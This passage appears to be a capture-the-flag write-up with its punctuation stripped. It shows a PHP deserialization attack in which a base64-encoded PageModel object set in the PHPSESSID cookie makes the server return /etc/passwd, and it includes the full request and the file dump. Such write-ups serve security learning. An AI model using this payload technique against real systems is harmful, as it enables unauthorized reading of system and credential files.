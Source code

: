 LFI
   

Following the modification of  www index html to  etc passwd  the server s response changes 

   highlight bash   
      echo  n    O 9  PageModel  1  s 4  file  s 11   etc passwd       base64  
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30 
   endhighlight   

Note that the data s 15 was modified to s 11 because  etc passwd is 11 characters long

Request 

   highlight bash   
GET   HTTP 1 1Host  167 99 88 212 30746  
User Agent  Mozilla 5 0  Windows NT 10 0  rv 78 0  Gecko 20100101 Firefox 78 0  
Accept  text html application xhtml xml application xml q 0 9 image webp       q 0 8  
Accept Language  en US en q 0 5  
Accept Encoding  gzip  deflate  
DNT  1  
Connection  close  
Cookie  PHPSESSID Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30   
Upgrade Insecure Requests  1
   endhighlight   

Reponse 

   highlight bash   
HTTP 1 1 200 OK  
  
Server  nginx  
Date  Sat  29 May 2021 21 25 41 GMT  
Content Type  text html  charset UTF 8  
Connection  close  
X Powered By  PHP 7 4 15  
Content Length  1262  
  
root x 0 0 root  root  bin ash  
bin x 1 1 bin  bin  sbin nologin  
daemon x 2 2 daemon  sbin  sbin nologin  
adm x 3 4 adm  var adm  sbin nologin  
lp x 4 7 lp  var spool lpd  sbin nologin  
sync x 5 0 sync  sbin  bin sync  
shutdown x 6 0 shutdown  sbin  sbin shutdown  
halt x 7 0 halt  sbin  sbin halt  
mail x 8 12 mail  var mail  sbin nologin  
news x 9 13 news  usr lib news  sbin nologin  
uucp x 10 14 uucp  var spool uucppublic  sbin nologin  
operator x 11 0 operator  root  sbin nologin  
man x 13 15 man  usr man  sbin nologin  
postmaster x 14 12 postmaster  var mail  sbin nologin  
cron x 16 16 cron  var spool cron  sbin nologin  
ftp x 21 21   var lib ftp  sbin nologin  
sshd x 22 22 sshd  dev null  sbin nologin  
at x 25 25 at  var spool cron atjobs  sbin nologin  
squid x 31 31 Squid  var cache squid  sbin nologin  
xfs x 33 33 X Font Server  etc X11 fs  sbin nologin  
games x 35 35 games  usr games  sbin nologin  
cyrus x 85 12   usr cyrus  sbin nologin  
vpopmail x 89 89   var vpopmail  sbin nologin  
ntp x 123 123 NTP  var empty  sbin nologin  
smmsp x 209 209 smmsp  var spool mqueue  sbin nologin  
guest x 405 100 guest  dev null  sbin nologin  
nobody x 65534 65534 nobody    sbin nologin  
www x 1000 1000 1000  home www  bin sh  
nginx x 100 101 nginx  var lib nginx  sbin nologin
   endhighlight   